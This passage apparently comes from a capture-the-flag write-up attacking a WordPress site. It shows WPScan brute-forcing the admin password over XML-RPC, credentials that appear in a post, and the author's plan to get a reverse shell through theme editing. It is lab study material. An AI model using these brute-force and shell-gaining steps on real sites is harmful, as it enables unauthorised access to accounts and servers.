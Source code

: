 [+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <=========================================================================================================================> (22 / 22) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                           
Trying admin / ricky1 Time: 00:06:51 <                                                                                                                       > (3890 / 14348282)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jan 23 13:04:34 2021
[+] Requests Done: 3937
[+] Cached Requests: 4
[+] Data Sent: 2.015 MB
[+] Data Received: 2.417 MB
[+] Memory used: 233.758 MB
[+] Elapsed time: 00:07:16


'''

'''

As we have got the password of my2boys....Interesting isn't it...
let's try it then....


And here we get into the dashboard.......LMAO..noob..me


'''

Lets check out the feature if by any case we can upload or execute anything to get back a reverse shell

Here in of of the post users deatils like username and passwords are revealed..

william:arnold147

but its not logging into the wordpress domain..Interesting..





'''

In the appearance plugin of in the theme edits section I got to know we have one default naming convention

